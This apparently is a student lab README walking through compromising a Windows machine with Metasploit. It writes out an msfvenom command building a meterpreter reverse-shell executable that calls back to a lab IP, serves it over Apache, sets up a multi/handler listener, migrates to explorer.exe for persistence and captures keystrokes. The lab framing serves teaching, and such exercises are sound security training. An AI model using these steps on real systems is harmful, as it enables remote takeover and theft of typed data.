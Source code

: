 # Compromising-windows-using-Metasploit
Compromising windows using Metasploit
# Metasploit
Compromising windows using Metasploit

# AIM:

To Compromise windows using Metasploit .

## DESIGN STEPS:

### Step 1:

Install kali linux either in partition or virtual box or in live mode

### Step 2:

Investigate on the various categories of tools as follows:

### Step 3:

Open terminal and try execute some kali linux commands

## PROGRAM:
Find the attackers ip address using ifconfig

## OUTPUT:
Create a malicious executable file fun.exe using msenom command msfvenom -p windows/meterpreter/reverse_tcp LHOST=192.168.1.2 -f exe > fun.exe

![image](https://github.com/pavi365/Compromising-windows-using-Metasploit/assets/115135775/70f04519-93aa-4b3e-8b67-6ba54a93fec1)

copy the fun.exe into the apache /var/www/html folder 

![image](https://github.com/pavi365/Compromising-windows-using-Metasploit/assets/115135775/ddc52c86-631b-44b7-8bb4-b34cbd6480a4)

Start apache server sudo systemctl apache2 start and Check the status of apache2

![image](https://github.com/pavi365/Compromising-windows-using-Metasploit/assets/115135775/d2a8ae45-5127-4b69-9a9d-126120bda209)

Invoke msfconsole:

## OUTPUT:

![image](https://github.com/pavi365/Compromising-windows-using-Metasploit/assets/115135775/5c8fdb3f-fae1-4f10-bd47-63b4b03f48fb)

Type help or a question mark "?" to see the list of all available commands you can use inside msfconsole.

Starting a command and control Server use multi/handler set PAYLOAD windows/meterpreter/reverse_tcp set LHOST 0.0.0.0 exploit

![image](https://github.com/pavi365/Compromising-windows-using-Metasploit/assets/115135775/60f0adee-63c3-4045-ae03-a3eb987690be)

On the target Windows machine, open a Web browser and open this URL, replacing the IP address with the IP address of your Kali machine: http://192.168.1.2/fun.exe The file "fun.exe" downloads.

![image](https://github.com/pavi365/Compromising-windows-using-Metasploit/assets/115135775/229a80d2-0ac2-4540-b5b6-abcde85c205b)

Bypass any warning boxes, double-click the file, and allow it to run.

On kali give the command exploit

![image](https://github.com/pavi365/Compromising-windows-using-Metasploit/assets/115135775/71760dff-1f5a-4431-8fe1-bbcd62dbff0f)

To see a list of processes, at the meterpreter > prompt, execute this command: ps ⇒ can see the fun.exe process running with pid 1156

The Metasploit shell is running inside the "fun.exe" process. If the user closes that process, or logs off, the connection will be lost. To become more persistent, we'll migrate to a process that will last longer. Let's migrate to the winlogon process. At the meterpreter > prompt, execute this command:

migrate -N explorer.exe at meterpreter > prompt, execute this command: netstat A list of network connections appears, including one to a remote port of 4444, as highlighted in the image below. Notice the "PID/Program name" value for this connection, which is redacted

Post Exploitation The target is now owned. Following are meterpreter commands for key capturing in the target machine keyscan_start Begins capturing keys typed in the target. On the Windows target, open Notepad and type in some text, such as your name.
![image](https://github.com/pavi365/Compromising-windows-using-Metasploit/assets/115135775/29f73eff-1e27-482b-9c9e-fb3b7441c044)

keyscan_dump Shows the keystrokes captured so far

![image](https://github.com/pavi365/Compromising-windows-using-Metasploit/assets/115135775/f86b05b7-20b7-45dd-b208-e04db7c281f3)

## RESULT:
The Metasploit framework is  used to compromise windows and is examined successfully.
